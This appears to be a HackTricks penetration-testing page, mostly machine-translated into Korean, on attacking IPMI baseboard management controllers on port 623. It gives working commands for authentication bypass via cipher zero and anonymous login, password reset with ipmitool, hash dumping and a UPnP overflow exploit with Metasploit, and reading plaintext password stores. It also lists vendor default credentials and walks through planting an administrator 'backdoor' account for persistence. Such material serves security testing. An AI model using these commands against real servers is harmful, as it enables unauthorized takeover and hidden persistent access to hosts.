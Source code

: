 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Deepen your expertise in **Mobile Security** with 8kSec Academy. Master iOS and Android security through our self-paced courses and get certified:

{% embed url="https://academy.8ksec.io/" %}


## Basic Information

### **IPMI 개요**

**[Intelligent Platform Management Interface (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)**는 운영 체제나 전원 상태와 관계없이 컴퓨터 시스템의 원격 관리 및 모니터링을 위한 표준화된 접근 방식을 제공합니다. 이 기술은 시스템 관리자가 시스템이 꺼져 있거나 응답하지 않을 때에도 원격으로 시스템을 관리할 수 있게 해주며, 특히 다음과 같은 경우에 유용합니다:

- OS 부팅 전 구성
- 전원 관리
- 시스템 장애 복구

IPMI는 온도, 전압, 팬 속도 및 전원 공급 장치를 모니터링할 수 있으며, 인벤토리 정보 제공, 하드웨어 로그 검토 및 SNMP를 통한 경고 전송 기능도 제공합니다. 작동에 필수적인 요소는 전원 공급 장치와 LAN 연결입니다.

1998년 Intel에 의해 도입된 이후, IPMI는 여러 공급업체에 의해 지원되어 원격 관리 기능을 향상시켰으며, 특히 2.0 버전의 LAN을 통한 직렬 지원이 추가되었습니다. 주요 구성 요소는 다음과 같습니다:

- **Baseboard Management Controller (BMC):** IPMI 작업을 위한 주요 마이크로 컨트롤러.
- **통신 버스 및 인터페이스:** ICMB, IPMB 및 다양한 로컬 및 네트워크 연결을 위한 인터페이스를 포함한 내부 및 외부 통신을 위한 것.
- **IPMI 메모리:** 로그 및 데이터를 저장하기 위한 것.

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**기본 포트**: 623/UDP/TCP (보통 UDP에서 실행되지만 TCP에서도 실행될 수 있습니다)

## Enumeration

### Discovery
```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```
You can **identify** the **version** using:  
당신은 다음을 사용하여 **버전**을 **식별**할 수 있습니다:
```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```
### IPMI 취약점

IPMI 2.0 영역에서 Dan Farmer에 의해 중요한 보안 결함이 발견되었으며, 이는 **cipher type 0**을 통해 취약점을 노출시킵니다. 이 취약점은 [Dan Farmer의 연구](http://fish2.com/ipmi/cipherzero.html)에서 자세히 문서화되어 있으며, 유효한 사용자가 목표로 삼을 경우 어떤 비밀번호로도 무단 접근을 가능하게 합니다. 이 약점은 HP, Dell, Supermicro와 같은 제조업체의 다양한 BMC에서 발견되었으며, 모든 IPMI 2.0 구현에서 광범위한 문제를 시사합니다.

### **Cipher 0을 통한 IPMI 인증 우회**

이 결함을 탐지하기 위해 다음의 Metasploit 보조 스캐너를 사용할 수 있습니다:
```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```
이 결함의 악용은 아래에示된 대로 `ipmitool`을 사용하여 가능하며, 사용자 비밀번호의 나열 및 수정을 허용합니다:
```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```
### **IPMI 2.0 RAKP 인증 원격 비밀번호 해시 검색**

이 취약점은 기존 사용자 이름에 대한 소금이 추가된 해시 비밀번호(MD5 및 SHA1)를 검색할 수 있게 해줍니다. 이 취약점을 테스트하기 위해 Metasploit은 모듈을 제공합니다:
```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```
### **IPMI 익명 인증**

많은 BMC의 기본 구성은 null 사용자 이름과 비밀번호 문자열로 특징지어지는 "익명" 액세스를 허용합니다. 이 구성을 사용하여 `ipmitool`을 사용하여 명명된 사용자 계정의 비밀번호를 재설정할 수 있습니다:
```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```
### **Supermicro IPMI 평문 비밀번호**

IPMI 2.0의 중요한 설계 선택은 인증 목적으로 BMC 내에 평문 비밀번호를 저장해야 함을 요구합니다. Supermicro가 이러한 비밀번호를 `/nv/PSBlock` 또는 `/nv/PSStore`와 같은 위치에 저장하는 것은 심각한 보안 문제를 야기합니다:
```bash
cat /nv/PSBlock
```
### **슈퍼마이크로 IPMI UPnP 취약점**

슈퍼마이크로의 IPMI 펌웨어에 UPnP SSDP 리스너가 포함되어 있으며, 특히 UDP 포트 1900에서 심각한 보안 위험을 초래합니다. [Rapid7의 공개](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play)에서 자세히 설명된 Intel SDK for UPnP Devices 버전 1.3.1의 취약점은 BMC에 대한 루트 접근을 허용합니다:
```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```
### Brute Force

**HP는 제조 중에** **Integrated Lights Out (iLO)** **제품의 기본 비밀번호를 무작위로 설정합니다.** 이 관행은 **정적 기본 자격 증명**을 사용하는 다른 제조업체와 대조적입니다. 다양한 제품에 대한 기본 사용자 이름과 비밀번호 요약은 다음과 같습니다:

- **HP Integrated Lights Out (iLO)**는 기본 비밀번호로 **공장 무작위 8자 문자열**을 사용하여 더 높은 보안 수준을 보여줍니다.
- **Dell의 iDRAC, IBM의 IMM**, 및 **Fujitsu의 Integrated Remote Management Controller**와 같은 제품은 각각 "calvin", "PASSW0RD" (0 포함), "admin"과 같은 쉽게 추측할 수 있는 비밀번호를 사용합니다.
- 유사하게, **Supermicro IPMI (2.0), Oracle/Sun ILOM**, 및 **ASUS iKVM BMC**도 "ADMIN", "changeme", "admin"을 비밀번호로 사용하는 간단한 기본 자격 증명을 사용합니다.


## Accessing the Host via BMC

Baseboard Management Controller (BMC)에 대한 관리 액세스는 호스트의 운영 체제에 접근할 수 있는 다양한 경로를 엽니다. 간단한 접근 방식은 BMC의 키보드, 비디오, 마우스 (KVM) 기능을 활용하는 것입니다. 이는 GRUB를 통해 루트 셸로 호스트를 재부팅하거나 가상 CD-ROM에서 복구 디스크로 부팅하여 수행할 수 있습니다. 이러한 방법은 호스트의 디스크를 직접 조작할 수 있게 하며, 백도어 삽입, 데이터 추출 또는 보안 평가를 위한 필요한 작업을 포함합니다. 그러나 이는 호스트를 재부팅해야 하므로 상당한 단점이 있습니다. 재부팅 없이 실행 중인 호스트에 접근하는 것은 더 복잡하며 호스트의 구성에 따라 다릅니다. 호스트의 물리적 또는 직렬 콘솔이 로그인된 상태라면 BMC의 KVM 또는 직렬-over-LAN (sol) 기능을 통해 쉽게 장악할 수 있습니다. i2c 버스 및 Super I/O 칩과 같은 공유 하드웨어 리소스의 악용을 탐색하는 것은 추가 조사가 필요한 영역입니다.

## Introducing Backdoors into BMC from the Host

BMC가 장착된 호스트를 손상시키면, **로컬 BMC 인터페이스를 활용하여 백도어 사용자 계정을 삽입할 수 있습니다**, 서버에 지속적인 존재를 생성합니다. 이 공격은 손상된 호스트에 **`ipmitool`**이 존재하고 BMC 드라이버 지원이 활성화되어 있어야 합니다. 다음 명령은 인증 없이 호스트의 로컬 인터페이스를 사용하여 BMC에 새 사용자 계정을 주입하는 방법을 보여줍니다. 이 기술은 Linux, Windows, BSD, 심지어 DOS를 포함한 다양한 운영 체제에 적용 가능합니다.
```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```
## Shodan

* `port:623`

## References

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)


<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**모바일 보안**에 대한 전문성을 심화하세요. 8kSec 아카데미를 통해 iOS 및 Android 보안을 마스터하고 인증을 받으세요:

{% embed url="https://academy.8ksec.io/" %}


{% hint style="success" %}
AWS 해킹을 배우고 연습하세요:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹을 배우고 연습하세요: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
